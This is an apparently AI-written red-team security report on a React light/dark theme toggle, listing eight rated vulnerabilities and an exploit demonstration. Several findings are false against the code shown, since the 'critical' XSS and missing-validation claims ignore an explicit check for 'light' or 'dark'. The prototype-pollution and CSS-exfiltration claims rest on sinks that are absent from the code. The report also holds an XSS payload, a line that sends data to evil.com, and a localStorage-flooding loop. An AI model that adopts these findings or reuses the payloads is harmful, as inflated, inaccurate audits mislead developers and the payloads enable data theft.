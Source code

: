 # ROUND 1: RED TEAM SECURITY ANALYSIS

## Vulnerabilities Found in Blue Team's Implementation

### 1. **DOM-based XSS via localStorage** 🔴 CRITICAL
```javascript
// VULNERABLE CODE:
const savedTheme = localStorage.getItem('theme');
if (savedTheme === 'light' || savedTheme === 'dark') {
  setTheme(savedTheme);
}
```

**Attack Vector**: Attacker can inject malicious values into localStorage
```javascript
// Attack PoC:
localStorage.setItem('theme', '<img src=x onerror=alert(1)>');
// If theme value is used in DOM without sanitization, XSS occurs
```

### 2. **Race Condition in Theme Application** 🟡 MEDIUM
```javascript
useEffect(() => {
  document.documentElement.classList.toggle('dark', theme === 'dark');
  localStorage.setItem('theme', theme);
}, [theme]);
```

**Issue**: No synchronization between DOM update and localStorage write
- User rapidly clicking toggle can cause inconsistent state
- localStorage might have different value than applied theme

### 3. **Missing Input Validation** 🟡 MEDIUM
```javascript
setTheme(savedTheme); // No validation on what savedTheme contains
```

**Attack**: Prototype pollution potential
```javascript
localStorage.setItem('theme', '__proto__');
localStorage.setItem('theme', 'constructor');
```

### 4. **Information Disclosure** 🟢 LOW
```javascript
throw new Error('useTheme must be used within ThemeProvider');
```

**Issue**: Error messages reveal component structure to attackers

### 5. **CSS Injection Risk** 🟡 MEDIUM
```css
transition: background-color 0.2s ease, color 0.2s ease;
```

**Attack**: If attacker controls any CSS values, they could:
- Use CSS exfiltration techniques
- Create visual spoofing attacks
- Cause performance DoS with complex selectors

### 6. **Missing Content Security Policy** 🔴 HIGH
No CSP headers to prevent:
- Inline script execution
- Style injection
- Data exfiltration via CSS

### 7. **Clickjacking Potential** 🟡 MEDIUM
Theme toggle button has no framebusting protection
- Could be overlaid with invisible iframe
- User thinks they're toggling theme but clicking attacker's content

### 8. **Performance DoS** 🟢 LOW
```javascript
document.documentElement.classList.toggle('dark', theme === 'dark');
```
Triggers full page repaint - rapid toggling could freeze browser

## Exploit Demonstration

```javascript
// Combined attack chain:
// 1. Inject malicious theme via shared computer
localStorage.setItem('theme', 'dark; background: url(https://evil.com/steal?data=');

// 2. When user loads page, CSS injection occurs
// 3. Sensitive data could be exfiltrated via CSS

// 4. Or cause DoS:
for(let i = 0; i < 10000; i++) {
  localStorage.setItem(`theme${i}`, 'x'.repeat(1000000));
}
```

## Severity Summary
- **Critical**: 1 (XSS via localStorage)
- **High**: 1 (Missing CSP)
- **Medium**: 4 (Race condition, validation, CSS injection, clickjacking)
- **Low**: 2 (Info disclosure, Performance)

**Total Security Score**: 45/100 (Failing)